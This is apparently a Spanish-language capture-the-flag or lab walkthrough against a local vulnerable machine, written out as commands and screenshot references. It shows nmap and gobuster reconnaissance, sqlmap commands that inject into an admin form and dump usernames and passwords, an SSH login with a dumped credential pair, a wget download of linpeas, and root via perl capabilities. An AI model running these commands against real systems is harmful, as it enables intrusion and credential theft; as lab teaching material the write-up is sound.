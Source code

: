 Hacemos el reconocimiento con nmap:
![[Pasted image 20230720124301.png]]
Y esto es lo que corre por el puerto 80:
![[Pasted image 20230720124139.png]]
Hacemos fuzzing y encontramos el directorio administrator y server-status:
```bash
gobuster dir -u http://192.168.0.38/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```
![[Pasted image 20230720124411.png]]
En server-status no tenemos permiso para acceder:
![[Pasted image 20230720124547.png]]
Y esto corre en administrator:
![[Pasted image 20230720124445.png]]
En este punto, podemos probar si esto es vulnerable a una sql injection con sqlmap con este parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms --dbs --batch
```
Y tenemos estas bases de datos:
![[Pasted image 20230720130018.png]]
Ahora vamos a atacar a la base de datos webapp, donde si queremos ver las tablas con sqlmap, debemos usar el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp --tables --batch
```
Y vemos la tabla users:
![[Pasted image 20230720130239.png]]
Ahora para ver las columnas de la tabla Users, lo haríamos de la siguiente forma:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users --columns --batch
```
![[Pasted image 20230720130627.png]]
Y ahora para ver todos estos registros con los usuarios y contraseñas, lo haríamos con el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users -C password,id,username --dump --batch
```
![[Pasted image 20230720131304.png]]
Por tanto ahora vamos a probar en acceder por ssh con el usuario bart y contraseña b4rtp0w4:
```bash
bart:b4rtp0w4
```
![[Pasted image 20230720131029.png]]
Una vez dentro, buscamos opciones de escalar privilegios; y para ello podemos usar linpeas, pero previamente lo descargamos con este comando:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
Lo compartimos con la máquina víctima y lo ejecutamos, donde vemos unos archivos de perl con capabilities:
![[Pasted image 20230720131854.png]]
Por tanto vamos a gtfobins y miramos el payload para explotar las capabilities de perl, y tenemos esto:
![[Pasted image 20230720132042.png]]
Por lo que podemos ejecutarlo directamente o en un script:
![[Pasted image 20230720132238.png]]
Y ya somos root al ejecutarlo de cualquiera de las dos formas:
![[Pasted image 20230720132148.png]]
![[Pasted image 20230720132251.png]]

